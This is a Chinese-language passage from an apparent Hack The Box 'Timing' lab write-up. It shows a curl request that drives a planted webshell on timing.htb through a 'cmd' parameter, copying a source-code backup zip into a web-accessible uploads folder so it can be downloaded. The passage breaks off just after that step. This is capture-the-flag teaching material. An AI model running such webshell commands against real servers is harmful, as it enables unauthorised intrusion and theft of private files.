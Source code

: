 一个备份文件，我们一定要看看。首先将其复制到我们有权访问的上传文件夹:

```
┌──(root💀kali)-[~/htb/timing]
└─# curl 'http://timing.htb/image.php?img=images/uploads/e087b23f34a4f7d6c841db302e7d88ca_pencer.jpg&cmd=cp+/opt/source-files-backup.zip+/var/www/html/images/uploads/'
```

现在我们可以下载了:

![](img/a6e19e582c8408d256661361141c5c97.png)

使用 curl 下载 backup.zip

# 备份文件探索

拉开拉链看看:
